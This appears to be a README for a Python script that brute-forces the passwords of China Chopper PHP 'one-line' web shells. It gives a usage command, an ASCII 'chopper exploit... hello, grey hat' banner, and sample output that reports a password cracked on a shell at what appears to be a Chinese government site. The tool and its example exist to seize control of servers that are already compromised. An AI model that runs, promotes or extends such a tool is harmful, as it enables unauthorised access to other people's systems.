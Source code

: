 Python-Chopper

使用Python暴力破解菜刀一句话密码，只写了暴力php一句话，添加asp, jsp, aspx的暴破就看各位的了。
修改自某某文件，改幅比较大，就不注明原作者项目地址了。

use Python to brute force cai-dao yijuhua, only for php, 
u can add asp, aspx,jsp for yourself.
modified from someone, thx.


PS D:\> python chopper-php.py http://www.aaaa.cn/php/1.php passwords.txt

        +-----------------------------------------------------+
        +                                                     +
        +               chopper exploit                       +
        +                      hello, grey hat                +
        +                                                     +
        +-----------------------------------------------------+

Targer :          http://mail.ynfda.gov.cn/php/pop.php
Password-File :   passwords.txt
Default threads : 1
Completed :       63.16%

[+] Found password -> gg
